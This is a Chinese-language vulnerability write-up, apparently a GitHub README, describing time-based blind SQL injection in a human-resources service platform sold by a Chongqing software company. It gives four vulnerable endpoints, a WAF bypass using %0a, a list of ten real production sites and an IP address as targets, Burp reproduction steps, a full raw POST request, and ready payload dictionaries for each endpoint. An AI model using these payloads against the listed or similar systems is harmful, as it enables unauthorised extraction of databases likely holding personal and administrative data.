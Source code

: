 重庆软狐信息技术有限公司智慧人力资源市场服务统一平台存在SQL注入漏洞
在如下三个子目录接口存在SQL注入(通过特殊手段绕过WAF实现时间延时盲注) 目前所有版本都可复现
"/Admin/Home/CT_SysAdminUpdatePwd_new",
        "/Website/home/CT_GetNewsInfo",
        "/Website/home/CT_GetNewsInfo",
        "/Website/home/CT_GetReMenNewsList"


![image](https://github.com/Hpterosaur/RPCSQLexp/assets/62538739/42cf137f-dbd0-414a-ac6c-7e77b241f152)
![image](https://github.com/Hpterosaur/RPCSQLexp/assets/62538739/c473eef8-b5cb-41d2-a1af-cd7af2053f05)


案例1:
![image](https://github.com/Hpterosaur/RPCSQLexp/assets/62538739/cb01be87-5ea3-431c-ba2e-54165bb126c6)

https://tn.ruanho.com/Website/home/CT_GetNewsInfo
POST_payload:
leaveId=if(ascii(substr((select%20table_name%0afrom%20information_schema.tables%20where%20table_schema=database()%20limit%200,1),1,1))>0%2Csleep(6)%2C0)&pageIndex=1&pageSize=6&text=
![image](https://github.com/Hpterosaur/RPCSQLexp/assets/62538739/0f99fbb9-dee4-495b-917d-a6e773dfeb63)



案例2
https://hw.naqjyhrcfwj.cn/Website/home/CT_GetNewsInfo
POST_payload:
leaveId=if(ascii(substr((select%20table_name%0afrom%20information_schema.tables%20where%20table_schema=database()%20limit%200,1),1,1))>0%2Csleep(6)%2C0)&pageIndex=1&pageSize=6&text=




案例3:
https://bsg.ruanho.com/Website/home/CT_GetNewsInfo
POST_payload:
leaveId=if(ascii(substr((select%20table_name%0afrom%20information_schema.tables%20where%20table_schema=database()%20limit%200,1),1,1))>0%2Csleep(6)%2C0)&pageIndex=1&pageSize=6&text=
![image](https://github.com/Hpterosaur/RPCSQLexp/assets/62538739/c8be1da4-f891-405f-a4bd-dcc33b3ba50b)
![image](https://github.com/Hpterosaur/RPCSQLexp/assets/62538739/1f02d4a3-e7a8-47c6-b610-f4aa8827181a)


案例4:
https://www.pxrc.com.cn/Website/home/CT_GetNewsInfo
POST_payload:
leaveId=if(ascii(substr((select%20table_name%0afrom%20information_schema.tables%20where%20table_schema=database()%20limit%200,1),1,1))>0%2Csleep(6)%2C0)&pageIndex=1&pageSize=6&text=
![image](https://github.com/Hpterosaur/RPCSQLexp/assets/62538739/de3cb6df-c05a-4d23-b48e-0e5183c78143)

![image](https://github.com/Hpterosaur/RPCSQLexp/assets/62538739/0037c26f-adc4-49a4-a20f-9f49d57049e5)


案例5:
https://cqtl.ruanho.com/Website/home/CT_GetNewsInfo
POST_payload:
leaveId=if(ascii(substr((select%20table_name%0afrom%20information_schema.tables%20where%20table_schema=database()%20limit%200,1),1,1))>0%2Csleep(6)%2C0)&pageIndex=1&pageSize=6&text=
步骤同上
案例6:
http://tnwx.ruanho.com/Website/home/CT_GetNewsInfo
案例7:
http://183.230.235.30:91/Website/home/CT_GetNewsInfo
案例8:
https://tn.ruanho.com/Website/home/CT_GetNewsInfo
案例9:
https://ls.xzrcfw.com/Website/home/CT_GetNewsInfo
案例10:
http://cqdzjy.ruanho.com:90/Website/home/CT_GetNewsInfo

复现步骤:
1.找存在sql注入的子目录接口
访问url+如下4个子目录如果返回500系统错误即该接口大概率存在sql注入
"/Admin/Home/CT_SysAdminUpdatePwd_new",
        "/Website/home/CT_GetNewsInfo",
        "/Website/home/CT_GetNewsInfo",
        "/Website/home/CT_GetReMenNewsList"

![image](https://github.com/Hpterosaur/RPCSQLexp/assets/62538739/d90bb313-5195-477c-acad-a3507a844053)

访问url+/Website/home/CT_GetReMenNewsList接口拼接url
https://hw.naqjyhrcfwj.cn:8022/Website/Home/CT_GetReMenNewsList
2.使用burp抓包,放入repeater中
3.将HTTP方式修改为POST
4.并在headers中添加头Content-Type: application/x-www-form-urlencoded
![image](https://github.com/Hpterosaur/RPCSQLexp/assets/62538739/3018816f-bdc6-49d6-8261-40008860174a)

5.构造Post的payload
该接口post传输参数为:
leaveId={GetReMenNewsList_leaveId}&pageIndex=1&pageSize=5&queryType=0
leaveId为注入点
当构造select from的语句时会被waf拦截
![image](https://github.com/Hpterosaur/RPCSQLexp/assets/62538739/001bfe91-7366-4f01-b411-a594969e269c)

绕过手段为在select  from之间添加%0a  才可进行绕过即(并且添加Content-Type: application/x-www-form-urlencoded头)
Select%20xxxx%0afrom%20xxxxx
查询表名语句为:
if(ascii(substr((select%20table_name%0afrom%20information_schema.tables%20where%20table_schema=database()%20limit%200,1),1,1))>0%2Csleep(6)%2C0)
![image](https://github.com/Hpterosaur/RPCSQLexp/assets/62538739/c075ca85-9365-44e7-9abc-0a4be49986f6)

6.后续通过intruder模块进行爆破出数据库的每一位字符串

![image](https://github.com/Hpterosaur/RPCSQLexp/assets/62538739/9042a60e-2b03-4446-8c21-8a199900665d)

部分数据库信息如下

![image](https://github.com/Hpterosaur/RPCSQLexp/assets/62538739/28fc64eb-4fa2-47a6-990f-2ddfe21524a0)



备注POST包
SQLmap无法跑出此注入
POST包
POST /Website/Home/CT_GetReMenNewsList HTTP/1.1
Host: hw.naqjyhrcfwj.cn:8022
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: ASP.NET_SessionId=mwqo1drvjsw053hsxz53hzz5
Connection: close
Content-Length: 187
Content-Type: application/x-www-form-urlencoded

leaveId=if(ascii(substr((select%20table_name%0afrom%20information_schema.tables%20where%20table_schema=database()%20limit%200,1),1,1))>0%2Csleep(6)%2C0)&pageIndex=1&pageSize=5&queryType=0


各子目录对应payload如下:依次按顺序对应
 target_subdirectories = [
        "/Admin/Home/CT_SysAdminUpdatePwd_new",
        "/Website/home/CT_GetNewsInfo",
        "/Website/home/CT_GetNewsInfo",
        "/Website/home/CT_GetReMenNewsList"
    ]

payloads = [
        "LginPwdstr=%5C147%5C60%5C60%5C144%5C120%5C141%5C44%5C44%5C167%5C60%5C162%5C104&code={code}&oldpwd=%5C147%5C60%5C60%5C144%5C120%5C141%5C44%5C44%5C167%5C60%5C162%5C104",
        "leaveId={GetNewsInfo_leaveId}&pageIndex=1&pageSize=6&text=",
        "leaveId=52&pageIndex=1&pageSize=6&text={text}",
        "leaveId={GetReMenNewsList_leaveId}&pageIndex=1&pageSize=5&queryType=0"
    ]

sql_payloads = {"code": "0'XOR(if(ascii(substr((select%20table_name%0afrom%20information_schema.tables%20where%20table_schema=database()%20limit%200,1),1,1))>0%2Csleep(6)%2C0))XOR'Z",
                    "GetNewsInfo_leaveId":"if(ascii(substr((select%20table_name%0afrom%20information_schema.tables%20where%20table_schema=database()%20limit%200,1),1,1))>0%2Csleep(6)%2C0)",
                    "text":"0'XOR(if(ascii(substr((select%20table_name%0afrom%20information_schema.tables%20where%20table_schema=database()%20limit%200,1),1,1))>0%2Csleep(6)%2C0))XOR'Z",
                    "GetReMenNewsList_leaveId":"if(ascii(substr((select%20table_name%0afrom%20information_schema.tables%20where%20table_schema=database()%20limit%200,1),1,1))>0%2Csleep(6)%2C0)"
                    }


